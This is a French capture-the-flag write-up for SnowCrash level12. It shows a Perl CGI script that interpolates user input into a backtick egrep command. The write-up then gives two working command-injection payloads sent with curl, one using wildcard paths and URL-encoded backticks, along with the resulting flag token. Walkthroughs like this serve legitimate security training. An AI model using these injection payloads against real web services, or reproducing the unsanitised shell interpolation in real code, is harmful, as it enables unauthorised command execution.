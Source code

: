 ```hell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Il s'agit d'un script Perl qui utilise le module CGI pour recevoir des paramètres d'un formulaire web et affiche un point ou deux points en fonction du résultat d'un appel de fonction.

Le script définit deux sous-routines :

    "t" prend deux paramètres ($_[0] et $_[1]) et effectue un traitement de texte sur $_[0] (en le convertissant en majuscules et en supprimant les espaces blancs finaux). Il recherche ensuite des lignes dans le fichier /tmp/xd qui commencent par $_[0] modifié et ont le motif $_[1] quelque part dans le reste de la ligne. Si une telle ligne est trouvée, la fonction renvoie 1 ; sinon, elle renvoie 0.

    "n" prend un paramètre ($_[0]) et affiche soit un point (.) soit deux points (..) selon que $_[0] est égal à 1 ou non.

La partie principale du script appelle "n" avec le résultat de l'appel de "t" avec les valeurs des paramètres "x" et "y" obtenues à partir du formulaire web.

Notez que ce script est vulnérable aux attaques d'injection de commandes, car il passe l'entrée utilisateur non sécurisée directement à la commande "egrep".

On essaie de voir s'il y a une connexion possible:
```shell
level12@SnowCrash:~$ curl -I 127.0.0.1:4646
HTTP/1.1 200 OK
Date: Tue, 21 Mar 2023 03:39:36 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```
OK pour utiliser la faille et injecter une commande dans `egrep "^$xx" /tmp/xd 2>&1`, on va utiliser un x= dans l'url :

x=getflag, mais on sait que avant il x sera mis en majuscule. Il faut donc qu'on puisse appeler GETFLAG.

pour cela on va utiliser utiliser le wildcard:

En effet quand il y a un unique fichier on peut l'appeler par /*. Donc:
```shell
level12@SnowCrash:~$ ln -sf /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ /*/GETFLAG
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
Ok maintenant si je lance avec x=`/*/GETFLAG` il faut que je mette en code url:
[url encoder](https://www.urlencoder.org/)
ce qui donne : %2F%2A%2FGETFLAG
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG`'
..level12@SnowCrash:
```
Mais je n'ai aucune sortie
une solution pas tres jolie mais j'ai pas trouvé mieux c'est de sortir sur l'erreur d'appache:
donc x=`/*/GETFLAG>&2 qu'on encode : %2F%2A%2FGETFLAG%3E%262
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
..level12@SnowCrash:~tail /var/log/apache2/error.log`'
[...]
[Tue Mar 21 05:24:13 2023] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
# deuxième solution **BEST**

le repertoire run/shm est monté en tant que système de fichiers tmpfs:
```shell
level12@SnowCrash:~$ mount | grep 'run/shm'
none on /run/shm type tmpfs (rw,nosuid,nodev)
```
et on a les droit d'écriture
on va donc faire un un petit script que l'on nomera GETFLAG
```shell
level12@SnowCrash: vi /run/shm/GETFLAG
```
```shell
#!/bin/sh

getflag > /tmp/token
```
L'avantage c'est que c'est dans le script que l'on maitrise la sortie de getflag.

Maintenant la commande curl ne passe pas pas les erreur de apache et on a pas besoins de coder 'url'
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/*/*/GETFLAG`'

level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```